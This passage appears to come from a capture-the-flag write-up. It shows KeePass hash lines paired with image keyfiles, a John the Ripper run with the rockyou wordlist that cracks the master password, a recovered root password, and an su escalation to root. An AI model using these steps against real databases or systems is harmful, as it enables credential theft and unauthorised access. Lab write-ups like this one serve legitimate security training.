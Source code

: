 ```
IMG_0548.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
IMG_0552.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
IMG_0553.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
Now, let's give this file to john and start cracking (hashcat is giving issue):
```
[root@kali user-home ]$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.00% (ETA: 2022-03-09 20:13) 0g/s 23.88p/s 163.1c/s 163.1C/s superman..angels
bullshit         (IMG_0547.JPG)
```
now let's use this password and keyfile to open the keepass database.  
As we open the keepass database we can see the following password for user root:
```
root:u3v2249dl9ptv465cogl3cnpo3fyhk
```
Now we can escalate to root with:
```
user@safe:~$ su -
Password:
root@safe:~# 
```

